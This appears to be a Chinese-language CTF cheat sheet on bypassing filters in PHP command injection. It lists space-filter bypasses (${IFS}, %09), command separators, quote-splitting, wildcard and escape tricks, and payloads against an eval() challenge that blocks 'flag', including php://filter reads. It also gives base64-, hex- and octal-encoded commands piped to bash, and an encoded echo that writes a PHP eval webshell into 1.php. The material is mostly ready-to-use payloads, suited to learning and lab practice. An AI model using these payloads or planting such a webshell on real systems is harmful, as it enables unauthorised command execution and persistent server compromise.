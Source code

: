 # 命令执行Bypass

## 针对情况

这里主要针对`system("$a");`变量a可控的这种情况，这里仅仅将一些常见的情况，特殊情况我们单独讲解

## 绕过空格

```php
常见的绕过符号有：
$IFS$9 、${IFS} 、%09(php环境下)、 重定向符<>、<、

#$IFS在linux下表示分隔符，如果不加{}则bash会将IFS解释为一个变量名，
加一个{}就固定了变量名，$IFS$9后面之所以加个$是为了起到截断的作用
```

## 命令分隔

```php
%0a  --换行符，需要php环境
%0d  --回车符，需要php环境
;  --在 shell 中，是”连续指令”
&  --不管第一条命令成功与否，都会执行第二条命令
&&  --第一条命令成功，第二条才会执行
|  --第一条命令的结果，作为第二条命令的输入
||  --第一条命令失败，第二条才会执行

```

## **单引号和双引号绕过**

```php
whoa'm'i
whoa"m"i
```

## 读取文件的函数

```php
strings:读取其中字符串
more:一页一页的显示档案内容
less:与 more 类似 head:查看头几行
tac:从最后一行开始显示，可以看出 tac 是
cat 的反向显示
tail:查看尾几行
nl：显示的时候，顺便输出行号
od:以二进制的方式读取档案内容
vi:一种编辑器，这个也可以查看
vim:一种编辑器，这个也可以查看
sort:可以查看
uniq:可以查看 file -f:报错出具体内容 grep
1、在当前目录中，查找后缀有 file 字样的文件中包含 test 字符串的文件，并打印出该字符串的行。此时，可以使用如下命令： grep test *file strings
```



## 绕过正则匹配

可以使用通配符`?`,`*`，使用转义字符`\`(在linux里面执行`whoami`=`whoam\i`)

举个简单例子

```php
<?php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}

```

姿势很多

```php
通配符
payload1:c=system("nl fla?????");
payload2:c=system("nl fla*");
payload3:c=echo `nl fl''ag.php`;或者c=echo `nl fl“”ag.php`;
payload4:c=echo `nl fl\ag.php`;//转义字符绕过
payload5:c=include($_GET[1]);&1=php://filter/read=convert.base64-encode/resource=flag.php
payload6:c=eval($_GET[1]);&1=system('nl flag.php');
payload7:c=awk '{printf $0}' flag.php||
还有很多姿势，毕竟等于没过滤
```

当然还可以编码绕过

```php
#base64
echo "Y2F0IC9mbGFn"|base64 -d|bash ==>cat /flag
echo Y2F0IC9mbGFn|base64 -d|sh==>cat /flag
#hex
echo "0x636174202f666c6167" | xxd -r -p|bash ==>cat /flag
#oct/字节
$(printf "\154\163") ==>ls
$(printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67") ==>cat /flag
{printf,"\x63\x61\x74\x20\x2f\x66\x6c\x61\x67"}|\$0 ==>cat /flag
#i也可以通过这种方式写马
内容为<?php @eval($_POST['c']);?>
${printf,"\74\77\160\150\160\40\100\145\166\141\154\50\44\137\120\117\123\124\133\47\143\47\135\51\73\77\76"} >> 1.php
```

## 通配符

linux里有两个通配符`?`和`*`前者代表0或一个字符，后者代表任意个字符

```php
/???/????64 ????????
```

看到上面这个了吗，比较特殊指的是`/bin/base64`当然不是每个系统都有


